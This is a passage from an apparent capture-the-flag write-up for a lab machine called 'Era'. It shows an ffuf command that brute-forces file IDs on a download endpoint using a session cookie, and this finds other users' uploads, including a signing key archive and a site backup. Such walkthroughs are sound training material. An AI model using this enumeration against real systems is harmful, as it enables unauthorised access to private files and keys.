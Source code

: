 ```
```

We can see there is an interesting file: `register.php`. We can create a new user in this endpoint and try to log in with it.

We find there is a file upload functionality. If we upload a file it generates a URL like this:
```
http://file.era.htb/download.php?id=<file_id>
```

We can check if there is any already uploaded file using `ffuf` and a made dictionary of numbers:
```bash
seq 1 10000 > numbers.txt
ffuf -w numbers.txt -u http://file.era.htb/download.php?id=FUZZ -H "Cookie: PHPSESSID=vo9v37jm4rtn5fujk0pn6cqq4s" -t 200 -fs 7686
```
```
        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://file.era.htb/download.php?id=FUZZ
 :: Wordlist         : FUZZ: numbers.txt
 :: Header           : Cookie: PHPSESSID=vo9v37jm4rtn5fujk0pn6cqq4s
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 7686
________________________________________________

150                     [Status: 200, Size: 6366, Words: 2552, Lines: 222, Duration: 95ms]
54                      [Status: 200, Size: 6378, Words: 2552, Lines: 222, Duration: 126ms]
2781                    [Status: 200, Size: 6366, Words: 2552, Lines: 222, Duration: 78ms]
:: Progress: [10000/10000] :: Job [1/1] :: 677 req/sec :: Duration: [0:00:11] :: Errors: 0 ::
```

We find that files with IDs `150`, `54`, and `2781` exist:
- `2781` is the file we uploaded earlier.
- `150` is a file named `signing.zip`.
- `54` is a file named `site-backup-30-08-24.zip`.

We can download these files and check their contents:
```bash
unzip signing.zip -d signing                             
```
```
Archive:  signing.zip
  inflating: signing/key.pem         
  inflating: signing/x509.genkey    
```
